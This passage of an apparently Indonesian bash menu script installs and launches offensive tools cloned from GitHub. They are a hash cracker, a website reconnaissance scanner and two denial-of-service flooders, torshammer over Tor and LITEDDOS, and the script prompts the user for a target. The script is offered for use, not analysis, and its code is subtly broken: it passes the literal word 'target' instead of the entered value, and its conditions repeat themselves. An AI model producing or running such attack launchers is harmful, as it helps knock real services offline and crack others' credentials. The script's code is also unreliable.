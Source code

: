if [ $bro = 23 ] || [ $bro = 23 ]
then
clear
toilet -f mono12 -F gay "Mr.B4J1N64N" 
apt upgrade
apt install python2
apt install git
git clone https://github.com/UltimateHackers/Hash-Buster
mv Hash-Buster $HOME
cd $HOME/Hash-Buster
python2 hash.py
fi

if [ $bro = 24 ] || [ $bro = 24 ]
then
clear
toilet -f standard -F gay "Mr.B4J1N64N" 
echo "\033[33;1muntuk tutorial kunjungi:" "\033[36;1m https://youtu.be/h2I5HU3W-so"
sleep 3
apt update
apt install git
apt install php
git clone https://github.com/Tuhinshubhra/RED_HAWK
mv RED_HAWK $HOME
cd $HOME/RED_HAWK
chmod +x rhawk.php
php rhawk.php
fi

if [ $bro = 25 ] || [ $bro = 25 ]
then
clear
toilet -f standard -F gay "Mr.B4J1N64N" 
apt update
apt install git
apt install tor
git clone https://github.com/dotfighter/torshammer.git
mv torshammer $HOME
cd $HOME/torshammer
read -p "Masukan Target==>:" target
python2 torshammer.py -T -t target
fi

if [ $bro = 26 ] || [ $bro = 26 ]
then
clear
toilet -f standard -F gay "Mr.B4J1N64N" 
echo "\033[33;1muntuk tutorial kunjungi:" "\033[36;1m https://youtu.be/EskgepQSB7U"
sleep 3
apt update
apt install git
git clone https://github.com/4L13199/LITEDDOS
mv LITEDDOS $HOME
cd $HOME/LITEDDOS
read -p "MasukanTarget:" target
python2 LITEDDOS.py target 80 100
fi

